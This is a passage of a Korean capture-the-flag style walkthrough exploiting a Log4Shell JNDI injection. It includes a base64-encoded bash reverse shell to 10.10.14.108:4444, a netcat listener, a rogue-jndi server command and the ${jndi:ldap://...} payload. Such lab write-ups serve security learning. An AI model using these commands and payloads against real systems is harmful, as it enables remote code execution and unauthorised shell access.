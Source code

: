 그리고 tcpdump를 이용하여 공격 가능여부를 확인 할 수 있다.

![Untitled](/assets/img/20220903_5/Untitled%2012.png)

이제 ReverseShell을 만들어 원격으로 접속해야하는데 이를 도와줄 툴을 사용하면 된다. (참고 : [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi))

먼저 아래 명령어를 통해 rogue-jndi를 설치해준다.

```
$ git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

이후 ReverseShell을 base64로 인코딩하여 출력한다.

```
echo 'bash -c bash -i >&/dev/tcp/10.10.14.108/4444 0>&1' | base64
```

local에서 4444번 포트를 Listen하는 NC를 열어둔다.

```
nc -lvnp 4444
```

다음 명령어에 이전에 만들었던 base64와 Host IP를 넣는다.

```
sudo java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTA4LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.108"
```

명령어를 실행한 후 `${jndi:ldap://10.10.14.108:1389/o=tomcat}` Payload를 입력하여 요청을 보내면 맨 아래 Sending~문구가 발생할 것이다.

![Untitled](/assets/img/20220903_5/Untitled%2013.png)
